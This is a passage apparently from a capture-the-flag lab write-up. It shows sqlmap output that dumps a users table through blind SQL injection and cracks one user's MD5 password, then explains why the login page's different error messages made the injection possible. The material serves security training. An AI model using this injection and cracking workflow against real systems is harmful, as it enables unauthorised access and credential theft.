     [08:33:10] [INFO] fetching number of entries for table 'users' in database 'falafel'
    [08:33:10] [INFO] retrieved: 2
    [08:33:11] [INFO] retrieved: 1
    [08:33:30] [INFO] retrieved: 0e462096931906507119562988736854
    [08:34:40] [INFO] retrieved: admin
    [08:34:51] [INFO] retrieved: admin
    [08:35:06] [INFO] retrieved: 2
    [08:35:08] [INFO] retrieved: d4ee02a22fc872e36d9e3751ba72ddc8
    [08:36:30] [INFO] retrieved: normal
    [08:36:43] [INFO] retrieved: chris
    [08:36:52] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [08:36:52] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [08:36:52] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [08:36:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [08:36:52] [INFO] starting 4 processes
    [08:36:54] [INFO] cracked password 'juggling' for user 'chris'
    Database: falafel
    Table: users
    [2 entries]
    +----+--------+----------+---------------------------------------------+
    | ID | role   | username | password                                    |
    +----+--------+----------+---------------------------------------------+
    | 1  | admin  | admin    | 0e462096931906507119562988736854            |
    | 2  | normal | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) |
    +----+--------+----------+---------------------------------------------+
    
    [08:36:56] [INFO] table 'falafel.users' dumped to CSV file '/root/.sqlmap/output/10.10.10.73/dump/falafel/users.csv'
    [08:36:56] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.73'
    
    [*] shutting down at 08:36:56
    

##### sqli - what’s going on

So why did that work? Because there’s a different response for wrong password
with existing username and wrong password with non-existing username, there is
likely a query using just username to the database. With that binary feedback,
we can do a blind sql injection, where we don’t get to see the results of the
query, but we can ask yes or no questions of the database.

I guess that it looks something like `select * from users where username =
'$_POST["username"]'`, and then it checks if there are rows returned. If rows,
then check the password (either with another query to the db, or by looking at
the data that came back from the username query), and return the bad password
message if it’s wrong, and if no rows, then return the bad username message.
(It turns out that the source confirms that’s almost exactly right.)
